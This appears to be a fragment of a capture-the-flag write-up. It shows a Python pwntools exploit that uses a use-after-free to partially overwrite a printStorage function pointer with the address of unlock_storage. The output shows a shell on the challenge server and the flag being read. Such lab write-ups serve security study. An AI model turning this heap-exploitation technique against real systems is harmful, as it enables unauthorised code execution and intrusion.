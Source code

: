 ```


offset = elf.sym.unlock_storage & 0xffff
print(hex(offset))
print(p16(offset))



io = init(len(sys.argv) > 1)

print("allocating chunk")
make_offer(80, b'lodsjhfjdsjfjdsfl')

print("freeing storage")
steal()

print("allocating new chunk and overwritting printStorage")
make_offer(80, b'A'*72 + p16(offset))

io.clean()
io.sendline(b'1')
io.clean()
time.sleep(2)

print("profit...")
io.interactive()
```

```
[+] Opening connection to 188.166.172.138 on port 31900: Done
allocating chunk
freeing storage
allocating new chunk and overwritting printStorage
profit...
[*] Switching to interactive mode

* Storage Door Opened *
$ id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
$ cat flag.txt
HTB{tr1ck1ng_d3al3rz_f0r_fUn_4nd_pr0f1t}
```



